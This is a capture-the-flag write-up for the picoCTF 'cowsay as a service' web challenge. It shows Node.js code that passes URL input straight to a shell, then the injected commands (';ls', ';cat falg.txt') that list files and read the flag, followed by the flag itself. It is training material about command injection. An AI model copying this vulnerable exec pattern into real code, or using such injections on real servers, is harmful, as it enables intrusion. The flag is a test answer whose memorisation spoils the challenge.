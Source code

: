 # Blame Game
Write-Up by **Mttttt** *2024-06-25*

## Task description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net)

[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js)


- *Category*: **Web Exploitation**
- *Difficulty*: **Medium**

## Solution 

**index.js**:
```js
const express = require('express');  
const app = express();  
const { exec } = require('child_process');  
  
app.use(express.static('public'));  
  
app.get('/cowsay/:message', (req, res) => {  
 exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {  
   if (error) return res.status(500).end();  
   res.type('txt').send(stdout).end();  
 });  
});  
  
app.listen(3000, () => {  
 console.log('listening');  
});
```

This web app is just running **cowsay** command with text that specified in url

Backend looks like this:
```bash
cowsay hi
```

Lets try to manipulate this command and run another:
```bash
cowsay hi;ls
```

`https://caas.mars.picoctf.net/cowsay/hi;ls`
```
 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

And now use command to see `falg.txt` content:

`https://caas.mars.picoctf.net/cowsay/hi;cat%20falg.txt`

### Answer

`picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
